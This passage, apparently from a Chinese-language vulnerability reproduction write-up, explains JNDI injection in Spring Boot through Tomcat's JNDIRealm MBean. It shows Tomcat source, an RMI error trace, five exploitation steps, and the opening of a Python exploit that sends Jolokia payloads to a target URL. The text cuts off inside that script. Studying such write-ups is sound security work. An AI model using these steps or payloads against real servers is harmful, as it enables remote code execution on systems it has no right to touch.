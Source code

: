 ```java
    
    if (this.connectionURL != null && this.connectionAttempt == 0) {
        env.put("java.naming.provider.url", this.connectionURL);
    } else if (this.alternateURL != null && this.connectionAttempt > 0) {
        env.put("java.naming.provider.url", this.alternateURL);
    }
    
    ...
    
    return env;
}

private DirContext createDirContext(Hashtable<String, String> env) throws NamingException {
    return (DirContext)(this.useStartTls ? this.createTlsDirContext(env) : new InitialDirContext(env));
}
```

可见 java.naming.factory.initial 和 java.naming.provider.url 我们都可以通过 MBean 来进行修改，接着在 createDirContext 方法，利用刚才的 env 创建了 InitialDirContext 对象。最终可以造成JNDI 注入。于是我满怀欣喜的搭建好 RMI Service，却发现爆了这么一个错误：


```java
javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
    at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495) ~[na:1.8.0_121]
    at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138) ~[na:1.8.0_121]
    at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205) ~[na:1.8.0_121]
    at com.sun.jndi.url.rmi.rmiURLContextFactory.getUsingURL(rmiURLContextFactory.java:71) ~[na:1.8.0_121]
    at com.sun.jndi.url.rmi.rmiURLContextFactory.getObjectInstance(rmiURLContextFactory.java:56) ~[na:1.8.0_121]
    at com.sun.jndi.rmi.registry.RegistryContextFactory.URLToContext(RegistryContextFactory.java:102) ~[na:1.8.0_121]
    at com.sun.jndi.rmi.registry.RegistryContextFactory.getInitialContext(RegistryContextFactory.java:69) ~[na:1.8.0_121]
    ...
```

漏洞复现

由于 Spring Boot 内嵌了 Tomcat 和 Tomcat EL，可以直接使用文章中的 Exploit。最终 Exploit 触发分为五个步骤。

* 创建 JNDIRealm
* 写入 connectionURL 为你的 RMI Service URL
* 写入 contextFactory 为 RegistryContextFactory
* 停止 Realm
* 启动 Realm 以触发 JNDI 注入

最终 Exploit 如下：


```bash
import requests, sys, time, pprint

 url = sys.argv[1]

 create_realm = {
     "mbean": "Tomcat:type=MBeanFactory",
     "type": "EXEC",
     "operation": "createJNDIRealm",
     "arguments": ["Tomcat:type=Engine"]
 }

 wirte_factory = {
     "mbean": "Tomcat:realmPath=/realm0,type=Realm",
```